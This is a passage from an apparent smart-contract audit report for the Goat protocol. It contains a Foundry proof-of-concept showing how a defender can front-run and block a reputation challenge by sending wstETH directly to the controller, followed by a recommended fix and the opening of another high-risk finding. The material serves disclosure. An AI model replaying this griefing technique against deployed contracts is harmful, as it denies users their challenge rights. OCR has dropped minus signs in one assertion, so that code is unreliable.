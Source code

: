  function setUp() public { // this is a free RPC endpoint, change it if not working chainFork = vm.createFork(\"https://sepolia-rollup.arbitrum.io/rpc\"); } 

 function test_front_run_vote(uint256 amount) public { vm.selectFork(chainFork); 

 address alice = address(100); address bob = address(150); 

 deal(address(GOAT), alice, 100 ether); deal(address(GOAT), bob, 100 ether); 

 // add 10 wstEth earnings for Bob deal(address(WSTETH), address(eEarning), 10806344879586039781); eEarning.update(bob, false); assertEq(eEarning.earningOf(bob), 10 ether); //add some wstEth balances to Bob & Alice deal(address(WSTETH), alice, 10 ether); deal(address(WSTETH), bob, 10 ether); 

 vm.startPrank(alice); GOAT.approve(address(controller), 100 ether); WSTETH.approve(address(controller), 10 ether); vm.stopPrank(); 

 // create a snapshot of the state before the reputation challenge uint256 snapshot = vm.snapshot(); 

 // CASE-1 -> Alice Reputation Challenge Succeeds 

 // Alice Opens Reputation Challenge against Bob vm.prank(alice); controller.createVote(bob, 8 ether, 1_000, 5 days, 0, 5 ether); // Alice has locked 5 ether assertEq(WSTETH.balanceOf(alice), 5 ether); // 8 ether of Bob earnings were locked assertEq(voting.defenderEarningFreezedOf(bob), 8 ether); 

 // go back to snapshot and and reset state vm.revertTo(snapshot); 


 // CASE-2 -> Bob front-runs Alice and reverts Reputation Challenge 

 // state is reset assertEq(voting.defenderEarningFreezedOf(bob), 0); assertEq(WSTETH.balanceOf(alice), 10 ether); assertEq(eEarning.earningOf(bob), 10 ether); 

 // Bob send enough wstETH to Controller and triggers validation failure vm.prank(bob); WSTETH.transfer(address(controller), 3 ether + 1 wei); // Alice Fails to create Reputation Challenge against Bob vm.prank(alice); vm.expectRevert(\"aEthValue invalid\"); controller.createVote(bob, 8 ether, 1_000, 5 days, 0, 5 ether); 

 // Bob takes back his ETH vm.prank(bob); assertEq(bob.balance, 0); controller.earningWithdraw(true, 0, payable(bob), 0); 

 // Bob gets unwrapped wstETH assertGe(bob.balance, 3 ether + 1 wei); // Bob has the other wstETH assertEq(WSTETH.balanceOf(bob), 10 ether 3 ether 1 wei); } } 

 Recommendation: * Make aEthValue a parameter that is passed by the user and use it in the exploited check: function createVote( address defender_, uint dEthValue_, uint aEthValue, // <----provided by user uint voterPercent_, uint freezeDuration_, uint minWstethA_, uint wstethA_ ) external payable { 
  
 // ... // this cannot be influenced by direct transfers require(aEthValue <= dEthValue_ && aEthValue * LPercentage.DEMI / dEthValue_ >= _minAttackerFundRate, ,→ \"aEthValue invalid\"); 

 } 

The transferFrom will fail in case the user did not provided the appropriate amount. 

 Goat: will fix 

 3.1.15 The swapexactinputsinglehop function in the llido library consistently fails 

_Submitted by merlin, also found by 0xrex, zigtur, deth, hals, Rotciv Egaf, 0xRizwan, Spearmint, ast3ros, smbv19192323, 0xblackskull, Said and 0xluckyy_ **Severity:** High Risk **Context:** _(No context files were provided by the reviewer)_ **Description:** The functions LLido.allToWsteth, LLido.sellWsteth(), and LLido.allToEth() are utilized in various parts of the Controller smart contract during the execution of ethStake, earningPulls, lockWithdraw, earningWithdraw, and other functions. These functions, in turn, invoke swapExactInputSingleHop(): 
